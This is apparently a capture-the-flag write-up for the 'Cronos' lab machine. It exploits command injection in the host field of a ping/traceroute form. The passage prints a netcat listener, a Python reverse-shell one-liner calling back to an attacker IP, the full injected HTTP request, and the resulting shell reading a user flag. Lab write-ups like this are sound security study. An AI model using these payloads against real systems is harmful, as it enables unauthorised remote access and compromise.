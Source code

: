 ![Welcome page](/cronos-1.png#center) 

## Executing command
The page proposes 2 commands: traceroute and ping.

![commands](/cronos-2.png#center)

# Exploitation

## Command Injection
Let's try some simple command injection in the host parameter.
On my local machine let's start a reverse shell listener with netcat

```bash
nc -lvnp 4444
```

Let's use this payload from https://www.revshells.com/

```bash
export RHOST="10.10.14.21";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

The exploit request would be

```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Origin: http://admin.cronos.htb
Connection: keep-alive
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=9e9rvgnbs3mhscgb5bcgbh83p1
Upgrade-Insecure-Requests: 1
Priority: u=0, i

command=ping+-c+1&host=10.10.14.21;export+RHOST%3d"10.10.14.21"%3bexport+RPORT%3d4444%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
```

Which gives us the reverse shell

```bash
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.13] 46334
$ whoami
whoami
www-data
$ cat /home/noulis/user.txt
cat /home/noulis/user.txt
{flag}
```
